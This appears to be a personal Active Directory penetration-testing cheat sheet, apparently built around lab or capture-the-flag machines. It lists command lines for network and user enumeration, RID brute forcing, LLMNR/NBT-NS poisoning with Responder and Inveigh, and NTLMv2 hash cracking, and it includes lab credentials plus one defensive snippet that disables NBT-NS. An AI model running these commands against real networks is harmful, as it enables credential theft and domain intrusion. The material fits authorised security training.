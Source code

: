 # Initial Enumeration 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `nslookup ns1.inlanefreight.com`| Query the DNS and discover the IP address to domain name mapping of the target entered|
| `sudo tcpdump -i ens224 -v`  | Start capturing network packets on the network interface|
| `sudo responder -I ens224 -A -v`   | Start responding to & analyzing `LLMNR`, `NBT-NS` and `MDNS` queries |
| `fping -asgq 172.16.5.0/23`  | Performs a ping sweep |
| `sudo nmap -v -A -iL hosts.txt -oN output.txt` |nmap scanning|
| `./kerbrute_linux userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results` | Enumerating users with kerbrute |
| `crackmapexec smb 172.16.5.5 --users`  | Uses `CrackMapExec` to discover users in a target Windows domain |
| `crackmapexec smb 10.10.11.35 -u "guest" -p "" --rid-brute \| grep "SidTypeUser"` | brute force rid to enum users |
| `enum4linux-ng -A 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'` | enum AD related things , also try user:guest , and null password |
| `nxc ldap administrator.htb -d administrator.htb -u Olivia -p ichliebedich --dns-server 10.10.11.42 --bloodhound -c All` | bloodhound-python alternative |

> administrator, guest, krbtgt, domain admins, root , are some common default SMB names
> In bloodhound , it's important to check object control
> If winrm enabled SSL , evil-winrm add `-S` arg !
> NetExec is modern crackmapexec 

```
crackmapexec smb -u ‘AB920’ -p ‘weasal’ 172.16.7.3 --users > DomainUser.txt
cat DomainUser.txt | awk ‘{print $5}’ | sed ‘s/^.*\\//’ | sort -u > SortedDomainUser.txt
```

`sudo ntpdate 10.10.11.42` : sync time to DC !!


# LLMNR/NTB-NS Poisoning 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `responder -h` | Used to display the usage|
| `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt` |Cracking NTLMv2 |
| `Import-Module .\Inveigh.ps1`| Import Inveigh |
| `(Get-Command Invoke-Inveigh).Parameters` | List all possible parameters |
| `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`    | Starts Inveigh with LLMNR & NBNS spoofing|
| `.\Inveigh.exe`                                              | Starts the `C#` implementation of `Inveigh`. |
| `$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey \|foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}` | PowerShell script used to disable NBT-NS on a Windows host.  |
